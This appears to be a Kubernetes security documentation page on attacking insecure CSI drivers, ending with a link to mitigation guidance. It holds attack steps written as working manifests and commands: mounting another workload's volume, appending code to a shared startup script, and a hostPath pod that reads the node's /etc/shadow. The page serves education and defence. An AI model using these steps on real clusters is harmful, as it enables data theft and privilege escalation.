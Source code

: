 ```yaml
---
sidebar_position: 15
title: "Insecure CSI Drivers"
description: "How attackers exploit insecure Container Storage Interface (CSI) drivers to gain unauthorized access to persistent volumes and sensitive data."
---
```


# Insecure CSI Drivers

**Container Storage Interface (CSI) drivers** enable Kubernetes to manage persistent storage across different backends. If **misconfigured** or **insecure**, CSI drivers can allow attackers to **escalate privileges, access sensitive data, or manipulate persistent storage volumes**.

---

## Exploitation Steps: Abusing Insecure CSI Drivers

An attacker exploits **misconfigured CSI drivers** to access or modify persistent volumes.

### Step 1: Identify Exposed CSI Drivers

The attacker lists available **CSI storage classes** to identify potential misconfigurations:

```bash
kubectl get storageclass
```

If a storage class allows **unauthenticated access** or lacks security controls, the attacker proceeds.

### Step 2: Attach Unauthorized Persistent Volumes

If **CSI drivers allow volume reattachment**, the attacker mounts an existing volume from another pod:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: attacker-pod
spec:
  containers:
    - name: attacker-container
      image: alpine
      command: ["/bin/sh", "-c"]
      args: ["sleep 3600"]
      volumeMounts:
        - mountPath: /data
          name: compromised-volume
  volumes:
    - name: compromised-volume
      persistentVolumeClaim:
        claimName: sensitive-data-pvc
```

```bash
kubectl apply -f attacker-pod.yaml
```

Now, the attacker has **unauthorized access** to sensitive data stored in the volume.

### Step 3: Exploit Weak Volume Policies

If a **CSI storage class** allows **ReadWriteMany (RWX) access**, an attacker can **modify shared storage** and introduce malicious payloads.

```bash
echo "Malicious code" >> /data/startup.sh
```

The next time a legitimate pod starts using this volume, the attacker's code **executes inside the target container**.

### Step 4: Abuse CSI Node Plugins for Host Access

Some **CSI drivers** run with **host-level privileges**, allowing attackers to execute commands directly on the node.

If a CSI plugin allows direct access to the node’s filesystem:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: csi-exploit-pod
spec:
  containers:
    - name: exploit-container
      image: alpine
      command: ["/bin/sh", "-c"]
      args: ["cat /host/etc/shadow"]
      volumeMounts:
        - mountPath: /host
          name: host-mount
  volumes:
    - name: host-mount
      hostPath:
        path: /
        type: Directory
```

Now, the attacker can **read and manipulate system files**.

### Result

The attacker successfully **accessed unauthorized data, modified storage volumes, or escalated privileges** through an insecure CSI driver.

---

## Mitigation Steps

To protect against **insecure CSI drivers**, follow the security best practices outlined in:

➡ **[Securing Kubernetes CSI Drivers](/docs/best_practices/cluster_setup_and_hardening/pod_security/csi_driver_mitigation)**

This guide covers techniques such as **restricting volume attachments, enforcing PodSecurity policies, disabling privileged CSI plugins, and enabling RBAC controls** to secure storage operations in Kubernetes.
